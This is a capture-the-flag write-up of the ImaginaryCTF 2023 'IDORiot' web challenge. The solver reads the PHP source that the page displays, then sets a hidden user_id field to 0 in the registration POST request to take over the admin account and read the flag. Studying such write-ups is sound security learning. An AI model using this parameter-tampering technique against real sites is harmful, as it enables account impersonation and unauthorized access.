 ```yaml
---
name: IDORiot (2023)
event: Imaginary 2023
category: Web
description: Writeup for IDORiot (Web) - Imaginary (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# IDORiot

## Description

> Some idiot made this web site that you can log in to. The idiot even made it in php. I dunno.

Challenge name indicates an [IDOR](https://portswigger.net/web-security/access-control/idor) vulnerability. There's no source code, so let's investigate [the site](http://idoriot.chal.imaginaryctf.org)

## Recon

We are immediately greeted by a login screen. I would normally try some default creds, SQLi etc but based on the challenge name, I decide to skip straight to user registration.

I register `cat:cat` and see a message `Welcome, User ID: 154308130`.

The source code is also displayed on-screen.

{% code overflow="wrap" %}
```php
session_start();

// Check if user is logged in
if (!isset($_SESSION['user_id'])) {
    header("Location: login.php");
    exit();
}

// Check if session is expired
if (time() > $_SESSION['expires']) {
    header("Location: logout.php");
    exit();
}

// Display user ID on landing page
echo "Welcome, User ID: " . urlencode($_SESSION['user_id']);

// Get the user for admin
$db = new PDO('sqlite:memory:');
$admin = $db->query('SELECT * FROM users WHERE user_id = 0 LIMIT 1')->fetch();

// Check if the user is admin
if ($admin['user_id'] === $_SESSION['user_id']) {
    // Read the flag from flag.txt
    $flag = file_get_contents('flag.txt');
    echo "<h1>Flag</h1>";
    echo "<p>$flag</p>";
} else {
    // Display the source code for this file
    echo "<h1>Source Code</h1>";
    highlight_file(__FILE__);
}
```
{% endcode %}

Accordingly, our goal is to gain access to the admin's account. If our `$_SESSION['user_id']` matches that of the admin, we get the flag.

## Solution

Tried to MD5 the user ID to see if matches the session value: `5b2deaedb34c1bbd66856710f647c1db`.

{% code overflow="wrap" %}
```bash
echo -n "154308130" | md5sum
87cd5ed599b872262ff865945845cd71  -
```
{% endcode %}

No match, tried to register another user `cat2:cat2` and get `Welcome, User ID: 275541975` with a session id `ef64cdce8f1247feb73ceddf86027774`.

Checking the registration login request, the user ID is specified.

{% code overflow="wrap" %}
```js
username=cat2&password=cat2&user_id=275541975
```
{% endcode %}

Tried sending the registration request to burp's repeater.

{% code overflow="wrap" %}
```js
username=cat3&password=cat3&user_id=0
```
{% endcode %}

The flag is displayed.

Flag: `ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}`
